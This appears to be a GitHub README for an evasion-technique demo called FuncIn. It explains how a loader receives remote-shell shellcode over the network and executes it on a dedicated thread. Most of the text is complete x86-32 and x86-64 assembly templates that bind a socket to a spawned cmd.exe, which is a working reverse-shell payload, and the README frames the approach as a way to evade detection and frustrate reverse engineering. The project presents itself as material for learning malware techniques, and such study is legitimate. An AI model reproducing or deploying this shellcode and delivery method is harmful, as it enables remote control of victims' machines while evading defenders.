 # FuncIn Unprotect Evasion Technique Demo

![Banner](Assets/banner.png)

## Description

This demonstration showcases the utilization of FuncIn evasion technique for spawning a remote shell. Instead of embedding the remote shell code directly within the loader, the entire remote shell function is transmitted over the network as a Just-In-Time (JIT) compiled shellcode. Subsequently, it is executed on a dedicated thread of the loader.

This project serves as a template for both practicing and comprehending how malware authors employ advanced techniques to create highly compact and optimized malware. Furthermore, these techniques introduce additional complexity to the reverse engineering process. Unlike conventional methods where the final payloads are directly embedded inside the loader or stored elsewhere (Ex: web server, third part file), this approach involves transmitting them over the network.

The modular nature of the malware, with the final payloads not being directly included in the loader, enhances its evasiveness. The transmitted payloads may also be optionally encrypted or obfuscated, adding an extra layer of defense against detection and analysis. Additionally, the malware may be configured to listen for specific events or behaviors before triggering the transmission of the payload.

## Video

![Video Demo](Assets/video.gif)

## Feature

* Remote Shell
* Support both x86-32 and x86-64 host process.
* Full interoperability between x86-32 Controller and x86-64 Loader and vis-versa.
* Designed to be easily extended in feature for practicing and learning purpose.

## WIP

* Demonstrate with additional programming languages (Next is Python)

## Changelog

## 15 Dec 2023

* x86-64 version of the FuncIn Shellcode implemented
* Few Improvements

## 13 Dec 2023

* Release (Delphi Loader & Controller)

## FuncIn Code Templates

### x86-32

```nasm
; @DarkCoderSc
mov ebp, esp
sub esp, 0x4
mov edx, <SizeOf(TStartupInfoA)>
sub esp, edx
mov edi, esp
mov ecx, edx
xor eax, eax
rep stosb
mov esi, <SocketFd>
mov dword ptr [esp], edx
mov dword ptr [esp + 0x2c], 0x101
mov word ptr [esp + 0x30], 0x0
mov dword ptr [esp + 0x38], esi
mov dword ptr [esp + 0x3c], esi
mov dword ptr [esp + 0x40], esi
mov esi, esp
sub esp, <SizeOf(TProcessInformation)>
mov [ebp-0x4], esp
push 0x00657865
push 0x2E646D63
mov edx, esp
xor eax, eax
push [ebp-0x4]
push esi
push eax
push eax
push 0x10
push 0x1
push eax
push eax
push edx
push eax
mov eax, <CreateProcessA>
call eax
xor eax, eax
dec eax
push eax
mov eax, [ebp-0x4]
push [eax]
mov eax, <WaitForSingleObject>
call eax
xor eax, eax
push eax
mov eax, <ExitThread>
call eax
```

### x86-64

```nasm
; @DarkCoderSc
mov r15, <SizeOf(TStartupInfoA)>
sub rsp, r15
mov rdi, rsp
mov rcx, r15
xor rax, rax
rep stosb
mov r14, <SocketFd>
mov qword ptr [rsp], r15
mov dword ptr [rsp + 0x3c], 0x101
mov word ptr [rsp + 0x40], 0x0
mov qword ptr [rsp + 0x50], r14
mov qword ptr [rsp + 0x58], r14
mov qword ptr [rsp + 0x60], r14
mov r14, rsp
sub rsp, <SizeOf(TProcessInformation)>
mov r15, rsp
mov rax, 0x006578652E646D63
push rax
mov r13, rsp
xor rax, rax
mov rcx, rax
mov rdx, r13
xor r8, r8
xor r9, r9
push r15
push r14
push rax
push rax
xor rbx, rbx
mov bl, 0x10
push rbx
inc rax
push rax
dec rax
push rax
push rax
push rax
push rax
mov rax, <CreateProcessA>
call rax
mov rcx, r15
mov rcx, [rcx]
xor rdx, rdx
dec rdx
mov rax, <WaitForSingleObject>
call rax
xor rcx, rcx
mov rax, <ExitThread>
call rax

```

## Greetings goes to

- [Keystone Engine](https://www.keystone-engine.org)

For their awesome open-source engine which facilitate shellcode development and maintenance.

## Disclaimer

🇺🇸 All source code and projects shared on this Github account by Unprotect are provided "as is" without warranty of any kind, either expressed or implied. The user of this code assumes all responsibility for any issues or legal liabilities that may arise from the use, misuse, or distribution of this code. The user of this code also agrees to release Unprotect from any and all liability for any damages or losses that may result from the use, misuse, or distribution of this code.

By using this code, the user agrees to indemnify and hold Unprotect harmless from any and all claims, liabilities, costs, and expenses arising from the use, misuse, or distribution of this code. The user also agrees not to hold Unprotect responsible for any errors or omissions in the code, and to take full responsibility for ensuring that the code meets the user's needs.

This disclaimer is subject to change without notice, and the user is responsible for checking for updates. If the user does not agree to the terms of this disclaimer, they should not use this code.

**Unprotect refers to the team dedicated to the maintenance and development of projects under the Unprotect umbrella.**
